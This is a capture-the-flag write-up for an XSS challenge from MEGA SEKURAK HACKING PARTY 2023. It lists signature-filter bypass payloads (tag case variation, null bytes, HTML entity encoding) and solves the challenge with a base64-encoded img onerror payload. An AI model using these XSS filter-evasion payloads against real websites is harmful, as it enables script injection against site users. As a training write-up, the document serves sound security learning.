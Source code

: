 # MSHP 2023 - [7] now that's xxs!  

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023  
**Challenge name:** [7] now that's xxs!  
**Challenge description:**  
> This page is somehow broken. Where's the ?payload?  
> UPDATE:  
> If you see a base64 - you are on a right track   

**Challenge URL:** http://ctf.securitum.ninja/ctfX/  
**Challenge category:** websec/xss  
**Challenge points:** 100  

* * *  

## Steps to solve  
This challenge website openly said: "Broken XSS Challenge" and "Your goal is to execute an alert using a bypass technique and retrieve the flag.", alright, but how?  
![website_inspector.png](../_resources/website_inspector-2.png)  

Opening *Web Developer Tools* allowed me to see, that the payload form is hidden. I changed HTML code to unhide and enable it, and sent the following payload:  
```html  
<script>alert(1)</script>  
```  

Of course, I didn't get the alert - it would be too easy. However I received "I don't like this tag" message/hint:  
![me_no_likey.png](../_resources/me_no_likey.png)  

And while observing URL, it now had parameter **?payload=** added, which I could later use to quickly send GET requests.  

> At that time I thought about the hint I received  
> "I don't like this tag"  
> Alright! But how can I make you like it?  

What are the ways to *bypass signature-based filters*?  
```  
If the filter is naive, then tag character case variation can bypass it:  
<sCrIpT>alert(1)</sCrIpT>  

Other way is to add NULL byte [%00] in any position:  
<[%00]script>alert(1)</script>  
<scr[%00]ipt>alert(1)</script>  
<script>a[%00]lert(1)</script>  

One can also use trick with space (or equiv char) following tag name:  
<script/blahblah>alert(1)</script>  

And lastly, it is nice to check whether HTML-encoding bypasses the filter:  
# This obfuscation technique could work, as browser HTML-decodes attributes before processing them  
<script>a&#x006c;&#x0065;rt(1)</script>  
&lt;script&gt;alert(1)&lt;/script&gt;  
&lt;script&gt;alert&lpar;1&rpar;&lt;&sol;script&gt;  

# Or if you are mental (&lt; = &#x003c; and &gt; = &#x003e;):  
&#x003c;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003e;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0031;&#x0029;&#x003c;&#x002f;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003e;  
```  

However, the above trickery did not work for me, meaning that organizers allowed specific tag only.  
I tried couple, but found out that **\<img>** is the one I was looking for:  
![gimme_base64.png](../_resources/gimme_base64.png)  

But what's that? Yet another error? Yet another hint?  
Payload I tried was:  
```html  
<img src="foo" onerror="alert(1)">  
```  
which basically tries to load image with source **foo** (non-existent), and if it cannot be loaded - it executes **alert(1)**.  

You want base64 encoded payload bro? You get base64 encoded payload... bro:  
```html  
<img src="foo" onerror="alert(1)"> = PGltZyBzcmM9ImZvbyIgb25lcnJvcj0iYWxlcnQoMSkiPg==  
```  

I sent above base64 payload in GET request, and received the flag:  
![GET.png](../_resources/GET.png)  

```  
I see base64 which I like!  

Flag: chr(84)||chr(86)||chr(78)||chr(73)||chr(85)||chr(70)||chr(57)||chr(55)||chr(81)||chr(71)||chr(89)||chr(107)||chr(81)||chr(69)||chr(119)||chr(122)||chr(78)||chr(69)||chr(100)||chr(107)||chr(83)||chr(68)||chr(70)||chr(53)||chr(99)||chr(107)||chr(108)||chr(52)||chr(102)||chr(81)||chr(61)||chr(61)  
```  

I used find and replace to concatenate those characters with plus sign in python, and then printed flag:  
```python  
flag = chr(84)+chr(86)+chr(78)+chr(73)+chr(85)+chr(70)+chr(57)+chr(55)+chr(81)+chr(71)+chr(89)+chr(107)+chr(81)+chr(69)+chr(119)+chr(122)+chr(78)+chr(69)+chr(100)+chr(107)+chr(83)+chr(68)+chr(70)+chr(53)+chr(99)+chr(107)+chr(108)+chr(52)+chr(102)+chr(81)+chr(61)+chr(61)  
print(flag)  
```  

```shell  
$ python3 flag.py  
TVNIUF97QGYkQEwzNEdkSDF5ckl4fQ==  
```  

But what is that? Another layer of encoding...?  
It's clearly base64, so let's *CyberChef* it! (you may of course pick *base64encode.org* or similiar):  
![base64.png](../_resources/base64-1.png)  

**FLAG:** MSHP_{@f$@L34GdH1yrIx}  

## Additional comments  
This challenge was really interesting and allowed me to discover various techniques on how to *bypass signature-based filters*. [*PortSwigger*](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) was one of the best.